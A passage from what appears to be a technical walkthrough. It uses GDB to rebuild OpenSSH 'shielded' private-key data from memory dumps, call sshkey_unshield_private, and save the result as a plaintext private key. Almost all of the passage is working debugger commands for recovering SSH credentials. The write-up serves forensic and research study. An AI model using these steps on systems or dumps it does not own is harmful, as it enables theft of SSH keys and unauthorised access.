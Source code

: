 * Step 2: Create a new sshkey structure and allocate memory for our data
```
set $miak = (struct sshkey *)sshkey_new(0)            // Define new structure
set $shielded_private = (unsigned char *)malloc(1392) // Allocate for private
set $shield_prekey = (unsigned char *)malloc(16384)   // Allocate for prekey
```

* Step 3: Open the shielded_private file and read its data into the allocated memory
```
set $fd = fopen("./shielded_private", "r")   // Get a FD for shielded_private
call fread($shielded_private, 1, 1392, $fd)  // Read that data into our buffer
call fclose($fd)                             // Close the file
```

* Step 4: Open the shielded_prekey file and read its data into the allocated memory
```
set $fd = fopen("/tmp/shielded_prekey", "r")   // Get a FD for shielded_prekey
call fread($shield_prekey, 1, 16384, $fd)      // Read that data into our buffer
call fclose($fd)                               // Close the file
```

* Step 5: Update the sshkey structure pointers to point to the file data
```
set $miak->shielded_private=$shielded_private    // Set the ptr for shielded_private
set $miak->shield_prekey=$shield_prekey          // Set the ptr for shielded_prekey
set $miak->shielded_len=1392                     // Set the size for shielded_private
set $miak->shield_prekey_len=16384               // Set the size for shielded_prekey
```

* Step 6: Call the sshkey_unshield_private function manually
```
call sshkey_unshield_private($miak)
```

This will decrypt the key, but then breaks on the sshkey_free call before exiting.  Reasons why we need to break here:

We don't want the pointer to key that we just unshielded to actually be freed

The program will actually crash trying to free the PTR that GDB created because it doesn't have access to it since it was created in GDB

* Step 7: Capture the decrypted key data

At this point we are technically inside sshkey_free -- However, we want to step back a frame and get into the function that called this so we have access to *kp - The pointer to the decrypted key
```
bt                 // Verify the backtrace
f 1                // Step back to Frame #1 (from Frame #0)
```
Now, we need to examine the *kp value and make sure its not a NULL PTR -- if it is, we messed up somewhere and need to restart this whole process.  (This happened quite a few times for me as I learned how to get the file data setup just right! [Pro-Tip... Don't paste Byte Data in a standard text editor!  Use an actual HEX editor lol])

Note: the data here may still show 0's as the dereferenced value -- This is okay!  We just need to be sure the PTR is available to be dereferenced
```
x *kp             // Examine *kp for a valid pointer
```
Assuming you were able to dereference the pointer, we now need to manually call the sshkey_save_private using *kp from this frame:
```
call sshkey_save_private(*kp, "plaintext_private_key", "", "comment", 0, "\x00", 0)

Then just kill the process & Quit
k                 // Kill ssh-keygen Process
q                 // Quit
```
Now we should have a plaintext private key in OPENSSH format!  If we cat out the plaintext_private_key we just saved, we can see that we got they key!
